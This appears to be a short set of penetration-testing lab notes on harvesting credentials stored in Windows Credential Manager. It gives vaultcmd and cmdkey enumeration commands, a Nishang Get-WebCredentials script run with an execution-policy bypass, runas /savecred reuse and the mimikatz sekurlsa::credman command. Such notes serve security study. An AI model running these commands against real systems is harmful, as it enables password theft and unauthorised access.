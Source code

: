 - Credential manager stores passwords for website, rpd logons etc.
- `vaultcmd` and `cmdkey` can be used to manage credentials in the credential manager.
```powershell
# list vauls, by default, "Web Credentials" and "Windows Credentails" are present
vaultcmd /list
vaultcmd /listproperties:"Web Credentials"
# list stored credentials
vaultcmd /listcreds:"Web Credentials"

# list keys
cmdkey /list
```
### Nishang
- Nishang's https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1 can be used to fetch cleartext web password from credential manager.
```powershell
powershell.exe -ex bypass
. .\Get-WebCredentials.ps1
Get-WebCredentials
```
### RunAs
- Runas.exe can be used to use the saved credentials.
```powershell
# list saved credentials
cmdkey /list

# runas can be used to use these credentials
runas.exe /savecred /user:thm.red\thm.local
```
### Mimikatz
- mimikatz can be used to fetch credentials from credential manager.
```powershell
sekurlsa::credman
```